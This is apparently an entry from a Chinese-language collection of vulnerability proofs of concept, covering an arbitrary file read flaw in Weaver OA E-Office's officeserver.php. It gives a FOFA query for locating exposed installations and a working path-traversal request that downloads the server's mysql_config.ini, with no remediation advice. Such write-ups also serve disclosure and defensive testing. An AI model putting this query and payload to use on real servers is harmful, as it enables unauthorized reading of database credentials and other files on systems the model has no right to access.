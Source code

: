 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

# 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
泛微OA E-Office
```

## FOF

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520140739224](/images/202205201407281.png)

验证POC

```
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![image-20220520140749985](/images/202205201407034.png)

